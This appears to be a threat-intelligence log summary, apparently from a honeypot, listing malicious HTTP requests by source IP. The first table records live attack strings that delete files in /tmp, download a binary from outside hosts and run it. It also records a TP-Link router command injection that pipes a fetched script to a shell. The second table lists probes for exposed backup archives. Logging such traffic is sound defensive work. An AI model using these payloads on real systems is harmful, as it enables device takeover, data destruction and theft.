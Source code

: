 | 128.14.227.182  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |
| 47.236.247.145  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |
| 128.1.32.115    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |
| 8.222.132.133   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |
| 156.238.249.239 | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                                     |
| 8.219.57.99     | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |
| 121.237.177.84  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |
| 87.121.84.34    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://220.158.234.135/x/tplink+-O-|sh) HTTP/1.1 |
| 41.238.44.147   | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                                     |
| 182.42.156.162  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                      |
|----:|----------------------:|:-----------------------------------------------------------------------------|
|  10 |                     6 | GET /connector.sds HTTP/1.1                                                  |
|  65 |                     3 | GET /root.zip HTTP/1.1                                                       |
|  66 |                     3 | GET /functions.zip HTTP/1.1                                                  |
|  67 |                     3 | GET /dashboard.zip HTTP/1.1                                                  |
|  68 |                     3 | GET /aws/data.zip HTTP/1.1                                                   |
|  69 |                     3 | GET /db_backup.zip HTTP/1.1                                                  |
|  70 |                     3 | GET /uploads.zip HTTP/1.1                                                    |
|  71 |                     3 | GET /python_server.zip HTTP/1.1                                              |
|  72 |                     3 | GET /temporary.zip HTTP/1.1                                                  |
|  73 |                     3 | GET /s3/data.zip HTTP/1.1                                                    |
|  74 |                     3 | GET /public.zip HTTP/1.1                                                     |
|  75 |                     3 | GET /bak.zip HTTP/1.1                                                        |
|  76 |                     3 | GET /Archive.zip HTTP/1.1                                                    |
|  77 |                     3 | GET /venv.zip HTTP/1.1                                                       |
|  79 |                     3 | GET /firebase.zip HTTP/1.1                                                   |
|  80 |                     3 | GET /django.zip HTTP/1.1                                                     |
|  81 |                     3 | GET /index.zip HTTP/1.1                                                      |
|  82 |                     3 | GET /mail.zip HTTP/1.1                                                       |
|  83 |                     3 | GET /package.zip HTTP/1.1                                                    |
|  84 |                     3 | GET /administrators.zip HTTP/1.1                                             |
|  85 |                     3 | GET /server.zip HTTP/1.1                                                     |
|  86 |                     3 | GET /website.zip HTTP/1.1                                                    |
|  87 |                     3 | GET /node_modules.zip HTTP/1.1                                               |